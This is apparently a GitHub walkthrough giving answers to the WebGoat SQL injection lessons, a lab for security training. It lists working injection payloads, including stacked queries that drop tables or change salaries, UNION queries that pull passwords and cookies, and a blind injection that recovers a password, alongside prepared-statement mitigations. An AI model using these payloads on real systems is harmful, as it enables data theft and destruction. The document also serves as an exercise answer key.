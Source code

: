 # A1 Injection

This page will tell you how to get set up these excercises and the right answers to complete them. The following results are achieved while working on Kali Linux 2021.3 installed using [this guide](https://github.com/tonikerttula/APE/blob/main/Kali.md) and WebGoat 8.0.0.M26 installed using [this guide.](https://github.com/tonikerttula/APE/blob/main/webgoat.md)

All exercises are working without problems (exept for Mitigation 10, I couldn't solve it myself and it might not work), if installation guides were followed properly. Ahead will be the guide how to complete the exercises, so try yourself first before looking!

Another great place for practicing SQL Injection is in SQL ZOO! (https://sqlzoo.net/wiki/SQL_Tutorial) 


### Intro

2: __SQL query:__ SELECT department FROM employees WHERE first_name='Bob' 

3: __SQL query:__ UPDATE employees SET department='Sales' WHERE first_name='Tobi'

4: __SQL query:__ ALTER TABLE employees ADD phone varchar(20) 

5: __SQL query:__ GRANT ALTER TABLE TO UnauthorizedUser

9: __SELECT * FROM users_data FIRST_NAME = 'John' and Last_NAME = '__ ' + or + '1'='1

10: __Login_count:__ 0    __User_Id:__ 0  __OR__  1=1

11: __Employee Name:__ A    __Authentication TAN:__ ' __OR__ '1' = '1

12:__Employee Name:__ A    __Authentication TAN:__ '; UPDATE employees SET salary=99999 WHERE first_name='John

13: __Action contains:__ %'; DROP TABLE access_log;--


### Advanced

3: __Name:__ '; SELECT * FROM user_system_data;-- __OR__ ' UNION SELECT 1, user_name, password, cookie, 'A', 'B', 1 from user_system_data;--

5: Login page doesn't provide any useful outputs, but the Register page allows to check if a username already exists. Trying to register with the username __tom' AND '1'='1__ we find that the username is taken. We guess that the table we are seeking is named "password", and registering with the username __tom' AND substring(password,1,1)='t__ we find that the username is already taken. That means that Tom's password starts with the letter "t". By guessing forward one letter at a time, we find that Tom's password is __thisisasecretfortomonly__. 

6: 
__1.__ Solution 4: A statement has got values instead of a prepared statement

__2.__ Solution 3: ?

__3.__ Solution 2: Prepared statements are compiled once by the database management system waiting for input and are pre-compiled this way.

__4.__ Solution 3: Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data

__5.__ Solution 4: The database registers 'Robert' ); DROP TABLE Students;--'.


### Mitigation

5. 
![1]

6.
> try {  
     Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);  
     PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE name = ?");  
     ps.setString(1, "Admin");  
     ps.executeUpdate();  
} catch (Exception e) {  
     System.out.println("Oops. Something went wrong!");  
}

10. I haven't solved it myself, good luck! You can find all the correct answers to WebGoat excercises also here: https://github.com/WebGoat/WebGoat/wiki/(Almost)-Fully-Documented-Solution-(en)

[1]: https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/sqli-mitigation-5.png
